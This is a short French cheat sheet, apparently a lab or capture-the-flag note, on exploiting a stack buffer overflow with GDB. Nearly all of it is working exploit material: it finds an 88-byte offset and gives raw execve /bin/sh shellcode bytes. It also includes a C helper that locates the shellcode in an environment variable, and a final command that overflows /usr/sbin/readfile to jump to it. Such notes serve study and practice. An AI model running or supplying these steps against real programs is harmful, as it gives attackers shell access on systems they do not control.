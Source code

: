
# GDB - Débogage et Exploitation

## Vérification des protections

```bash
checksec
```

## Création et recherche d'un pattern

```bash
pattern_create 100
r 'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL'
pattern_search
```

## Détermination de l'offset

```bash
# [RSP] --> Offset = 88, Taille ~12 octets
r $(python2 -c 'print "A"*88+"B"*8')
```

## Injection de shellcode

```bash
# Shellcode Linux x86_64 (execve /bin/sh)
# Source : http://shell-storm.org/shellcode/files/shellcode-806.html
shellcode="\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"

r $(python2 -c 'print "'"$shellcode"'" + "A"*(88-27) + "B"*6')
```

## Trouver l'adresse du shellcode dans l'environnement

```bash
export SHELLCODE=$(python2 -c 'print "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"')
```

## Programme pour obtenir l'adresse d'une variable d'environnement

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main(int argc, char *argv[]) {
    char *ptr;

    if(argc < 3) {
        printf("Usage: %s <env_variable> <target_program>\n", argv[0]);
        return 1;
    }

    ptr = getenv(argv[1]);
    if (ptr == NULL) {
        printf("Environnement variable introuvable\n");
        return 1;
    }

    ptr += (strlen(argv[0]) - strlen(argv[2])) * 2;
    printf("%s se trouve à l'adresse : %p\n", argv[1], (void *)ptr);
    return 0;
}
```

## Compilation et exécution

```bash
gcc getenv.c -o getenv
chmod +x getenv
./getenv SHELLCODE /usr/sbin/readfile
```

## Exploitation avec l'adresse trouvée

```bash
/usr/sbin/readfile $(python2 -c 'print "A"*88+"\x52\xe7\xff\xff\xff\x7f"')
```